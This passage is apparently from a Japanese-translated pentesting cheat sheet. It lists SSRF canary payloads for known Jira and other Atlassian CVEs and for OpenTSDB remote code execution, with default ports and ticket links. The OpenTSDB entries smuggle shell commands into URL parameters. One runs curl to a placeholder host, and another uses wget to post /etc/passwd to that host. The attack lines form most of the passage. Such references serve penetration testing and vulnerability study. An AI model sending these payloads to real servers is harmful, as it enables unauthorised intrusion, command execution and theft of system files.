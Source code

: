 **SSRF カナリア: iconUriServlet - Jira < 7.3.5 (CVE-2017-9506)**

[Atlassian Security Ticket OAUTH-344](https://ecosystem.atlassian.net/browse/OAUTH-344)
```bash
/plugins/servlet/oauth/users/icon-uri?consumerUri=http://SSRF_CANARY
```
**SSRF Canary: makeRequest - Jira < 8.4.0 (CVE-2019-8451)**

[Atlassian Security Ticket JRASERVER-69793](https://jira.atlassian.com/browse/JRASERVER-69793)
```bash
/plugins/servlet/gadgets/makeRequest?url=https://SSRF_CANARY:443@example.com
```
# その他のAtlassian製品

**一般的にバインドされるポート: 80、443 (SSL)、8080、8443 (SSL)**

**SSRFキャナリー: iconUriServlet (CVE-2017-9506)**:

* Bamboo < 6.0.0
* Bitbucket < 4.14.4
* Crowd < 2.11.2
* Crucible < 4.3.2
* Fisheye < 4.3.2

[AtlassianセキュリティチケットOAUTH-344](https://ecosystem.atlassian.net/browse/OAUTH-344)
```bash
/plugins/servlet/oauth/users/icon-uri?consumerUri=http://SSRF_CANARY
```
# OpenTSDB

**一般的にバインドされるポート: 4242**

[OpenTSDBリモートコード実行](https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html)

**SSRFキャナリー: RCE経由のcurl**
```bash
/q?start=2016/04/13-10:21:00&ignore=2&m=sum:jmxdata.cpu&o=&yrange=[0:]&key=out%20right%20top&wxh=1900x770%60curl%20SSRF_CANARY%60&style=linespoint&png
```
[OpenTSDB 2.4.0 リモートコード実行](https://github.com/OpenTSDB/opentsdb/issues/2051)

**SSRF カナリア: RCE 経由の curl - CVE-2020-35476**
```bash
/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('wget%20--post-file%20/etc/passwd%20SSRF_CANARY')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```
# Jenkins

**一般的にバインドされるポート: 80,443 (SSL),8080,8888**

[こちら](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html)に素晴らしい解説があります。
